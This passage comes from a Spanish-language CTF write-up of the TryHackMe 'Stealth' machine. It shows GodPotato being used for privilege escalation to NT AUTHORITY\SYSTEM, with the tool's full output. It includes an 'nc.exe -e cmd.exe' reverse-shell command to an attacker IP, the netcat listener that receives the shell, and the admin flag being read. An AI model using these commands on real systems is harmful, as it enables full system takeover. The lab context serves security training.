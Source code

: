                     -cmd Required:True CommandLine (default cmd /c whoami)
            Example:
            GodPotato -cmd "cmd /c whoami"

            C:\xampp\htdocs\uploads>GodP.exe -cmd "nc.exe -e cmd.exe 10.9.92.151 2002"
            GodP.exe -cmd "nc.exe -e cmd.exe 10.9.92.151 2002"
            [*] CombaseModule: 0x140704155631616
            [*] DispatchTable: 0x140704157949104
            [*] UseProtseqFunction: 0x140704157326384
            [*] UseProtseqFunctionParamCount: 6
            [*] HookRPC
            [*] Start PipeServer
            [*] CreateNamedPipe \\.\pipe\4761990a-d5c2-4c5f-95c4-0447b99839dc\pipe\epmapper
            [*] Trigger RPCSS
            [*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
            [*] DCOM obj IPID: 00005c02-1788-ffff-0d5d-c51da84c130d
            [*] DCOM obj OXID: 0x26f608f96ac5b891
            [*] DCOM obj OID: 0x365780b39c893daf
            [*] DCOM obj Flags: 0x281
            [*] DCOM obj PublicRefs: 0x0
            [*] Marshal Object bytes len: 100
            [*] UnMarshal Object
            [*] Pipe Connected!
            [*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
            [*] CurrentsImpersonationLevel: Impersonation
            [*] Start Search System Token
            [*] PID : 536 Token:0x608  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
            [*] Find System Token : True
            [*] UnmarshalObject: 0x80070776
            [*] CurrentUser: NT AUTHORITY\SYSTEM
            [*] process start with pid 5112

               
       - Obtenemos Shell como NT AUTHORITY\SYSTEM

              ──(root㉿kali)-[/home/…/ctf/try_ctf/stealth/contenido]
              └─# rlwrap nc -lnvp 2002
              listening on [any] 2002 ...
              connect to [10.9.92.151] from (UNKNOWN) [10.10.74.249] 50141
              Microsoft Windows [Version 10.0.17763.1821]
              (c) 2018 Microsoft Corporation. All rights reserved.
              
              C:\Windows\system32>
         
        - Leemos Administrator Flag 
      
              C:\Users\Administrator\Desktop>type flag.txt
              type flag.txt
              THM{10------ADMIN_ACCESS}


---> Maquina  Stealth completa <---
---
   	












